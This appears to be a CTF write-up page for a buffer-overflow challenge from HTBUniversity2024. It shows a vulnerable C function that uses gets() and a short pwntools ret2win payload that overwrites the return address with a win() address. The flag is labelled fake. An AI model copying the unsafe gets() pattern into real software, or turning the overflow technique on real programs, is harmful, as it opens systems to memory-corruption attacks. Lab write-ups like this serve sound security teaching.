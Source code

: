 ```yaml
---
title: "buffer overflow"
date: 2025-06-27T22:01:33+02:00
description: "buffer overflow writeup from HTBUniversity2024 CTF - Binary Exploitation challenge"
categories:
    - "CTF Writeups"
    - "Binary Exploitation"
tags:
    - "CTF"
    - "HTBUniversity2024"
    - "Binary Exploitation"
    - "Cybersecurity"
event: "HTBUniversity2024"
challenge: "buffer overflow"
category: "Binary Exploitation"
weight: 1
---
```


# buffer overflow

**Event:** HTBUniversity2024 | **Category:** Binary Exploitation

---


# Buffer Overflow

## Challenge Description

A classic buffer overflow challenge. Can you control the execution flow?

## Solution

This challenge involves a simple buffer overflow with a ret2win technique.

### Step 1: Analysis

Running `checksec` on the binary shows:
- No ASLR
- No stack canaries
- NX disabled

### Step 2: Finding the Vulnerability

The `vulnerable_function()` uses `gets()` which doesn't check buffer bounds.

```c
void vulnerable_function() {
    char buffer[64];
    gets(buffer);
}
```

### Step 3: Exploitation

We need to overflow the buffer and redirect execution to the `win()` function.

```python
from pwn import *

# Calculate offset
offset = 72

# Address of win function
win_addr = 0x401234

payload = b'A' * offset + p64(win_addr)
```

### Step 4: Flag

After successful exploitation, the `win()` function prints the flag.

**Flag:** `HTB{f4k3_buff3r_0v3rfl0w_t35t}` 

---

**Navigation:**
- [← Back to HTBUniversity2024 Overview](/ctf/htbuniversity2024/)
- [View All CTF Writeups](/ctf/)
